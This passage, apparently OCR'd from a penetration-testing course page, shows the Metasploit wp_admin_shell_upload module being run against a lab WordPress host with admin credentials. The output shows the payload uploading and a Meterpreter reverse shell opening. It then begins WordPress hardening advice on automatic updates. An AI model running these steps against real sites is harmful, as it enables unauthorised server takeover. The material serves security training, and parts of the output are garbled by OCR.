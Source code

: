 After using the `set` command to make the necessary modifications, we can use the `run` command to execute the module. If all of our parameters are set correctly, it will spawn a reverse shell on the target upon execution.
### Set Options

```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.16.8z4444
[*] Authenticating with WordPress using admin:Winter202@...
[+] Authenticated with WordPress
[*] Uploading payload...
[*] Executing the payload at /wp—content/plugins/YtyZGFIhax/uTvAAKrAdp.php...
[*] Sending stage (38247 bytes) to blog.inlanefreight.com
[*] Meterpreter session 1 opened
[+] Deleted uTvAAKrAdp.php

meterpreter > getuid
Server username: www—data (33)
```
# WordPress Hardening
## Best Practices

Below are some of the best practices for preventing attacks against a WordPress site.
### Perform Regular Updates

This is a key principle for *any applicaiton or system* and can greatly reduce the risk of a successful attack. Make sure that WordPress core, as well as all installed plugins and themes, are kept up-to-date. Researchers continually find flaws in third-party WordPress plugins. Some hosting providers will even perform continuous automatic updates of WordPress core. The WordPress admin console will usually prompt us when plugins or themes need to be updated or when WordPress itself requires and upgrade. We can even modify the `wp-config.php` file to enable automatic updates by inserting the following lines:

```php
define ( 'WP_AUTO_UPDATE_CORE', true );
```

```php
add_filter( 'auto_update_plugin', '__return_true' );
```

```php
add_filter( 'auto_update_theme', '__return_true' );
```
## Plugin and Theme Management
